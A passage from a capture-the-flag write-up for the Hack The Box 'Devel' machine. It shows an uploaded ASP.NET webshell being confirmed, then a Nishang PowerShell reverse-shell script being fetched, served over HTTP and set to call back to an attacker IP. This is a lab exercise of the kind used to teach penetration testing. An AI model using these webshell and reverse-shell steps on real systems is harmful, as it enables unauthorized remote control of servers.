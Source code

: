 That looks to have uploaded correctly.  We can try navigating to our webshell with curl or a browser to see if we can get remote execution.

![Webshell access confirmed](images/ctf/htb/devel/http_80_webshell.png)

That the website rendered this new page is a good indicator that the server utilises ASP.NET content (and can thus execute C# code) and that the FTP server is set to the same directory as the IIS server.

Attempting to execute a command also provides good feedback.

![Good news, everyone!](images/ctf/htb/devel/http_80_webshell_cmd-exec.png)

### Nishang Reverse TCP Shell

[Nishang](https://github.com/samratashok/nishang) provides several useful scripts and functions, including `Invoke-PowerShellTcp.ps1`.  This script creates a reverse shell using a TCP stream. 

Clone the Nishang Github repository and collect the desired shell script:
```bash
# git clone -C /opt https://github.com/samratashok/nishang
Cloning into 'nishang'...
remote: Enumerating objects: 10, done.
remote: Counting objects: 100% (10/10), done.
remote: Compressing objects: 100% (8/8), done.
remote: Total 1686 (delta 2), reused 6 (delta 2), pack-reused 1676
Receiving objects: 100% (1686/1686), 8.88 MiB | 10.48 MiB/s, done.
Resolving deltas: 100% (1053/1053), done.
# cp /opt/nishang/Shells/Invoke-PowerShellTcp.ps1 ./
# python3 -m http.server 80
```

We will need to append a new line to the very bottom of the file to automatically execute the desired command:
```bash
# echo -n "Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.22 -Port 443" >> InvokePowerShellTcp.ps1
```

